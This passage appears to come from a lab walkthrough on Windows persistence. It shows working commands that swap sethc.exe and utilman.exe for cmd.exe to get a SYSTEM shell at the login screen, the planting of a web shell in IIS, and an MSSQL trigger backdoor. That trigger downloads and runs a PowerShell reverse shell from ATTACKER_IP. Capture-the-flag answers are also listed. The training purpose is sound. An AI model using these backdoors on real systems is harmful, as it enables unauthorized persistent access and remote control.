After pressing `SHIFT` 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`. If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut. Interestingly, we can even do this from the login screen before inputting any credentials.

A straightforward way to backdoor the login screen consists of replacing `sethc.exe` with a copy of `cmd.exe`. That way, we can spawn a console using the sticky keys shortcut, even from the logging screen.

To overwrite `sethc.exe`, we first need to take ownership of the file and grant our current user permission to modify it. Only then will we be able to replace it with a copy of `cmd.exe`. We can do so with the following commands:

```
takeown /f c:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```


After doing so, lock your session from the start menu:


You should now be able to press SHIFT five times to access a terminal with SYSTEM privileges directly from the login screen:


### Utilman

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:


When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.

To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:

```
takeown /f c:\Windows\System32\utilman.exe
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```


To trigger our terminal, we will lock our screen from the start button:


And finally, proceed to click on the "Ease of Access" button. Since we replaced `utilman.exe` with a `cmd.exe` copy, we will get a command prompt with SYSTEM privileges:


### Answer the questions below

* Insert flag14 here

    `THM{BREAKING_THROUGH_LOGIN}`

    * Setup Sticky Key to execute `cmd.exe`

        ```
        takeown /f c:\Windows\System32\sethc.exe
        icacls C:\Windows\System32\sethc.exe /grant Administrator:F
        copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
        ```

        

    * Lock our session from the start menu

        

    * Press SHIFT five times and get the shell

        

* Insert flag15 here

    `THM{THE_LOGIN_SCREEN_IS_MERELY_A_SUGGESTION}`

    * Setup Utilman to execute `cmd.exe`

        ```
        takeown /f c:\Windows\System32\utilman.exe
        icacls C:\Windows\System32\utilman.exe /grant Administrator:F
        copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
        ```

        

    * Lock our session from the start menu

        

    * Proceed to click on the "Ease of Access" button and get the shell

        

## Task 8 - Persisting Through Existing Services

If you don't want to use Windows features to hide a backdoor, you can always profit from any existing service that can be used to run code for you. This task will look at how to plant backdoors in a typical web server setup. Still, any other application where you have some degree of control on what gets executed should be backdoorable similarly. The possibilities are endless!

### Using Web Shells

The usual way of achieving persistence in a web server is by uploading a web shell to the web directory. This is trivial and will grant us access with the privileges of the configured user in IIS, which by default is `iis apppool\defaultapppool`. Even if this is an unprivileged user, it has the special `SeImpersonatePrivilege`, providing an easy way to escalate to the Administrator using various known exploits. For more information on how to abuse this privilege, see the [Windows Privesc Room](https://tryhackme.com/room/windowsprivesc20).

Let's start by downloading an ASP.NET web shell. A ready to use web shell is provided [here](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx), but feel free to use any you prefer. Transfer it to the victim machine and move it into the webroot, which by default is located in the `C:\inetpub\wwwroot` directory:

```
move shell.aspx C:\inetpub\wwwroot\
```

**Note**: Depending on the way you create/transfer `shell.aspx`, the permissions in the file may not allow the web server to access it. If you are getting a Permission Denied error while accessing the shell's URL, just grant everyone full permissions on the file to get it working. You can do so with `icacls shell.aspx /grant Everyone:F`.

We can then run commands from the web server by pointing to the following URL:

`http://MACHINE_IP/shell.aspx`


While web shells provide a simple way to leave a backdoor on a system, it is usual for blue teams to check file integrity in the web directories. Any change to a file in there will probably trigger an alert.

### Using MSSQL as a Backdoor

There are several ways to plant backdoors in MSSQL Server installations. For now, we will look at one of them that abuses triggers. Simply put, **triggers** in MSSQL allow you to bind actions to be performed when specific events occur in the database. Those events can range from a user logging in up to data being inserted, updated or deleted from a given table. For this task, we will create a trigger for any INSERT into the `HRDB` database.

Before creating the trigger, we must first reconfigure a few things on the database. First, we need to enable the `xp_cmdshell` stored procedure. `xp_cmdshell` is a stored procedure that is provided by default in any MSSQL installation and allows you to run commands directly in the system's console but comes disabled by default.

To enable it, let's open `Microsoft SQL Server Management Studio 18`, available from the start menu. When asked for authentication, just use Windows Authentication (the default value), and you will be logged on with the credentials of your current Windows User. By default, the local Administrator account will have access to all DBs.

Once logged in, click on the **New Query** button to open the query editor:


Run the following SQL sentences to enable the "Advanced Options" in the MSSQL configuration, and proceed to enable `xp_cmdshell`.

```
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

After this, we must ensure that any website accessing the database can run `xp_cmdshell`. By default, only database users with the `sysadmin` role will be able to do so. Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the `sa` user, which is the default database administrator:

```
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

After all of this, we finally configure a trigger. We start by changing to the HRDB database:

```
USE HRDB
```

Our trigger will leverage `xp_cmdshell` to execute Powershell to download and run a `.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees` table of the `HRDB` database:

```
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

Now that the backdoor is set up, let's create `evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell:

```
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

We will need to open two terminals to handle the connections involved in this exploit:

* The trigger will perform the first connection to download and execute `evilscript.ps1`. Our trigger is using port 8000 for that.
* The second connection will be a reverse shell on port 4454 back to our attacker machine.


With all that ready, let's navigate to http://MACHINE_IP/ and insert an employee into the web application. Since the web application will send an INSERT statement to the database, our TRIGGER will provide us access to the system's console.


### Answer the questions below

* Insert flag16 here

* Insert flag17 here

## Task 9 - Conclusion

In this room, we have covered the primary methods used by attackers to establish persistence on a machine. You could say persistence is the art of planting backdoors on a system while going undetected for as long as possible without raising suspicion. We have seen persistence methods that rely on different operating system components, providing various ways to achieve long-term access to a compromised host.

While we have shown several techniques, we have only covered a small fraction of those discovered. If you are interested in learning other techniques, the following resources are available:

* [Hexacorn - Windows Persistence](https://www.hexacorn.com/blog/category/autostart-persistence/)
* [PayloadsAllTheThings - Windows Persistence ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md)
* [Oddvar Moe - Windows Persistence Through RunOnceEx](https://oddvar.moe/2018/03/21/persistence-using-runonceex-hidden-from-autoruns-exe/)
* [PowerUpSQL](https://www.netspi.com/blog/technical/network-penetration-testing/establishing-registry-persistence-via-sql-server-powerupsql/)

### Answer the questions below

* Click and continue learning!